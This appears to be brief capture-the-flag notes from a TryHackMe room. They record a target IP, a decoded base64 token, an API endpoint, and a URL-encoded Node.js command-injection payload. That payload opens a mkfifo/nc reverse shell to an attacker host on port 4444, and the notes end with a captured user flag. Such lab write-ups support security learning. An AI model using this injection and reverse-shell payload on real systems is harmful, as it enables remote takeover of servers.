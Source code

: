 ip: 10.10.19.31

token: "dGhpc19pc19ub3RfcmVhbA=="
base64 decodes
this_is_not_real

/api/items
curl -X POST
gives
"message":"there_is_a_glitch_in_the_matrix"

POST /api/items?cmd=require("child_process").exec("rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20%2Di%202%3E%261%7Cnc%2010%2E8%2E152%2E12%204444%20%3E%2Ftmp%2Ff")
encoded url
outputs
vulnerability_exploited

user.txt
THM{i_don't_know_why}

root.txt
